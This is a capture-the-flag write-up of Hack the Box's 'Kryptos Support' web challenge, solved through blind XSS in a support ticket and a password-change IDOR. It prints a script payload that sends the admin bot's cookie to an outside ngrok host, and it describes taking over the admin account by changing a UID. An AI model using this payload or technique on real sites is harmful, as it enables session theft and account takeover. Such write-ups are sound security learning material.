

# Web - Kryptos Support

Kryptos Support was the first web challenge in Hack the Box's Cyber Apocalypse CTF and was the easiest, as it had the most solves. Our team couldn't solve it for a long time though. As you will see in this write up it involves context clues to get this one solved.

To start off with we are greeted by a page where we can provide feedback on the Kryptos Vault. This page also has a button labeled backend that will take you to a login page. These are the only two pages you have access to but with a dirbuster scan we can see there are more. Now to start we looked for SQLI or any CVEs that were known for the middleware and backend. We found none and couldn't scout out anything else. This is where we got stuck and we went to spend time on other challenges instead.

When I came back to this challenge I knew I would have to look at every small detail. And that's when it hit me. When you submit a ticket it says "An admin will review your ticket shortly!"


This made me think that there was something on the other side loading the tickets. That's when I tried a super simple XSS attack using this payload:

```
</img>
```

And I got a hit back!

After realizing thats the attack vector I needed to exploit I immediately went to steal the session from the bot opening it on the backend using this payload:

```
<script>var i=new Image;i.src="http://a9cc-72-74-50-90.ngrok.io/?"+document.cookie;</script>
```

And this worked too!

Now using this session I grabbed I just added it to my cookies and headed to the login page and BOOM I was in.


Now we are logged in as a moderator and from my dirbuster scan I know there is an /admin page, so I tried to visit there andd..... no luck. This means we have to find a way to escalate our privileges. From looking around I see there is an settings page and on that page is a change password feature. I went ahead and intercepted the request it makes to change the password in BurpSuite and it only takes in two things: the UID of the account, and the new password. Lets see if it checks the session as well...


It doesn't! By just changing the UID to 1, for the first account, instead of the moderator UID, I changed the admin password. Now all I had to do was sign out and login with username admin and password test and I was in on the admin page:



PWNED!!
